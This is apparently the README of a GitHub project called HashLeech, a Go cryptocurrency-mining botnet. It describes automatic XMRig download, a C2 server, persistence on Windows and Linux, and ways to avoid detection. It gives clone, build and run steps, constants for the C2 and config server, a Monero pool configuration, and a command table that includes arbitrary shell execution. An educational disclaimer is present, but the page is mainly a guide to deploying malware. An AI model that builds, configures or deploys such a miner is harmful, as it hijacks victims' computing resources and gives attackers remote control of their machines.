 HashLeech - Cryptocurrency Mining Botnet
Disclaimer: This project is for educational and research purposes only. Unauthorized cryptocurrency mining on systems you don't own is illegal and unethical. Use this code only on systems you have explicit permission to test on.

Overview
HashLeech is a cryptocurrency mining botnet implementation that demonstrates how malware can distribute and manage cryptocurrency miners across multiple systems. Unlike traditional botnets focused on DDoS attacks, HashLeech specializes in Monero (XMR) mining using the XMRig miner.

Features
|---------------------------------------------------------------------------|
|Automatic Miner Deployment: Downloads and installs XMRig miner automatically|
|Command & Control (C2) Server: Centralized control of all mining nodes|
|Stealth Operation: Runs with minimal resource usage detection|
|Cross-Platform: Supports both Windows and Linux systems|
|Persistence Mechanisms: Automatically reinstalls after reboots|
|Dynamic Configuration: Remote updates of mining pool and settings|
|Heartbeat Monitoring: Regular status reports to C2 server|
|Resource Optimization: Adjusts mining intensity based on system specs|

```mermaid
graph TD
    BotClient[Bot Client - this repository]
    C2Server[C2 Server - separate repository]
    XMRig[XMRig Miner]

    BotClient -->|Connects to| C2Server
    BotClient -->|Downloads and runs| XMRig
    BotClient -->|Reports mining statistics| C2Server
    BotClient -->|Implements persistence| BotClient

    C2Server -->|Manages all connected bots| BotClient
    C2Server -->|Sends mining commands| XMRig
    C2Server -->|Collects statistics| BotClient
    C2Server -->|Updates mining configuration| XMRig

    XMRig -->|Official XMRig miner| XMRig
    XMRig -->|Configured for Monero mining| XMRig

```

Installation
For Research/Testing Purposes

Clone the repository:
```bash
git clone https://github.com/1Birdo/HashLeech.git
cd HashLeech
Configure the C2 server address in bot.go:
```
```go
const C2Address = "your.c2.server.com:7003"
```

Build the bot:
```bash
go build -o HashLeech
Run the bot:
```

```bash
./HashLeech
```
## Command Reference

| Command  | Description                          | Example |
|----------|--------------------------------------|---------|
| START    | Start mining operation               | START   |
| STOP     | Stop mining operation                | STOP    |
| UPDATE   | Update miner binary to latest version | UPDATE  |
| KILL     | Remove miner and bot from system      | KILL    |
| PERSIST  | Install persistence mechanism         | PERSIST |
| CUSTOM   | Execute custom shell command         | CUSTOM "ls -la" |

## Configuration
Edit the following constants in bot.go before building:
```go
const (
    C2Address         = "your.c2.server.com:7003"  // Your C2 server address
    xmrigURL          = "https://github.com/xmrig/xmrig/releases/download/v6.20.0/xmrig-6.20.0-msvc-win64.zip"
    configURL         = "http://yourconfigserver.com/config.json" 
    minerPath         = "C:\\Windows\\Temp\\xmrig.exe"           // Windows path
    // minerPath      = "/tmp/xmrig"                            // Linux path
)
```
Mining Configuration
The config.json file should contain standard XMRig configuration. Example:

```json
{
    "autosave": true,
    "cpu": true,
    "opencl": false,
    "cuda": false,
    "pools": [
        {
            "url": "pool.moneroocean.stream:10128",
            "user": "your_wallet_address",
            "pass": "x",
            "keepalive": true,
            "tls": false
        }
    ]
}
```
Persistence Mechanisms
HashLeech implements multiple persistence methods:

Windows:
Registry Run key
Scheduled tasks

Linux:
Systemd service
Cron job
Init.d script

Both:
```Text
Detection Avoidance
Randomizes process names

Uses standard TLS for C2 communication
Limits CPU usage to avoid detection

Runs with low process priority
Hides in system temp directories
```
